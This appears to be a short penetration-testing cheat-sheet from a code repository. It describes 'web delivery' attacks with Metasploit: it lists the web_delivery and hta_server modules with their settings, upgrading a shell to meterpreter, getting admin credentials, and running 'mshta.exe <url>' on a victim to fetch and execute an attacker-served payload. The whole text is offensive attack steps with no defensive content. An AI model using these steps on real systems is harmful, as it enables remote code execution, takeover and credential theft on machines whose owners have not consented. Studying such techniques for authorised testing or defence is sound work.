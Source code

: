 # Web Delivery

## Metasploit modules:

- multi/script/web_delivery : serves webpage with payload to run on target machine.
	- set target PSH\ (Binary)
	- set PSH-EncodedCommand false
	- get admin creds, if you can (run PrivescCheck in cmd)
	- once a cmd shell is obtained, run shell_to_meterpreter module 
	- set WIN_TRANSFER VBS (in shell_to_meterpreter)
- exploit/windows/misc/hta_server
	- in victim cmd session, execute the generated url with the cmd -
	- mshta.exe <url>
    
    On Attacker system - 
    ![hta_server](./images/webdelivery-01.png)

    On victim system -
    ![hta_server_victim](./images/webdelivery-02.png)
￼